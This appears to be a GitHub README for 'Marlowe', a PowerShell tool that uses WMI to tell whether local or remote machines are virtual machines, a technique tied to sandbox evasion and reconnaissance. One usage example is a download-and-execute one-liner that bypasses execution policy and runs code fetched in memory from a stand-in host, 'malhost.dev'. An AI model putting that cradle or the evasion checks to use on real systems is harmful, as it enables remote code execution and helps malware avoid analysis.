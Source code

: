 # Marlowe
**Marlowe** is a PowerShell script which uses WMI to query local and remote systems with the aim of revealing whether said systems are virtual machines. 

# Usage
### Local system
```
PS C:\Users\tester> . .\Marlowe.ps1; Invoke-Marlowe
VM detected! (6/8)
```
```
C:\> powershell.exe -ep bypass -nop -c "iex(New-Object Net.WebClient).downloadString('hxxp://malhost.dev/marlowe.ps1'); Invoke-Marlowe"
VM detected! (4/8)
```

### Remote system
```
PS C:\Users\tester> . .\Marlowe.ps1; Invoke-Marlowe -Machine "fs-m01"
VM detected! (4/8)
```

### Alternative Usage
One can also utilize individual functions that **Marlowe** uses in order to evaluate whether target system is a VM or not. If the chosen function returns `True` or a non-zero value, target system is (likely) a VM.
```
PS C:\Users\tester> . .\Marlowe.ps1 ; Check-VMProcesses
True
```

# False Positives
- 05/23/21 - `Check-PortConnector` returns false positives on ESXi (tested on v7.1)